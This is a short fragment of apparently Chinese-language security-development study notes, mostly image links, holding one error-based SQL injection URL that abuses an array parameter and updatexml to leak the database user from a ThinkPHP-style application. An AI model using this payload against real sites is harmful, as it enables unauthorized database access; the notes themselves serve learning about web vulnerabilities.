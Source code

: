 ![image-20250803135207509](27-安全开发.assets/image-20250803135207509.png)

SQL注入：  
`http://yoursite/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1`

![image-20250803141142756](27-安全开发.assets/image-20250803141142756.png)

---